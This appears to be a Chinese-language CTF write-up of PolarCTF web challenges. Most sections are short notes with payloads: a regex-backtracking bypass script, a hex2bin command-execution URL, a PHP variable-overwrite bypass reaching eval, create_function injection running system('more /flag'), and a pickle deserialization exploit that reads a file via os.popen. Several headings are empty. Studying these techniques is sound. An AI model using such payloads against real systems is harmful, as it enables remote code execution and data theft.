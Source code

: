 # web
### swp
递归绕过正则限制
```python
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://d9d00980-d2fc-412e-b6cc-b6db2562eafb.www.polarctf.com:8090/index.php', data=data, allow_redirects=False)
print(res.content)

```

### 简单rce
$IFS空格绕过+sort读取文件

### 上传


### 非常好绕的命令执行

hex2bin转换
`http://1ae67e55-509c-49e4-9bf7-a04be9788ca5.www.polarctf.com:8090/?args1=hex2bin&args2='73797374656d'&args3='ls'`

### php是世界上最好的语言
变量覆盖
```php
<?php
//flag in $flag
highlight_file(__FILE__);
include("flag.php");
$c=$_POST['sys'];
$key1 = 0;
$key2 = 0;
if(isset($_GET['flag1']) || isset($_GET['flag2']) || isset($_POST['flag1']) || isset($_POST['flag2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($flag1 == '8gen1' && $flag2 == '8gen1') {
    if(isset($_POST['504_SYS.COM'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\?/", $c)){
         eval("$c");  

    }
}
}
?>
```

```http
http://www.xxx.com?_POST[flag1]=8gen1&_POST[flag2]=8gen1
post:sys=echo($flag);&504[SYS.COM=a
```

### \$\$
`$GLOBALS`全局变量
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211154038.png)


### 某函数的复仇
create_function注入

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231211163836.png)

```php
$shaw('',$root);


root=}system('more /flag');/*
shaw=create_function
```


### veryphp
call_user_func
调用类的方法
`myans=qwq::oao`

### unpickle
#pickle 

```python
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        return (eval,("__import__('os').popen('cat /flag').read()",))


e = exp()
s = pickle.dumps(e)#将获取的对象序列化
user = base64.b64encode(s).decode()##将序列化的对象使用base64加密
print(user)#输出加密后的序列化对象
```

### 代码审计1



# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-09   23:22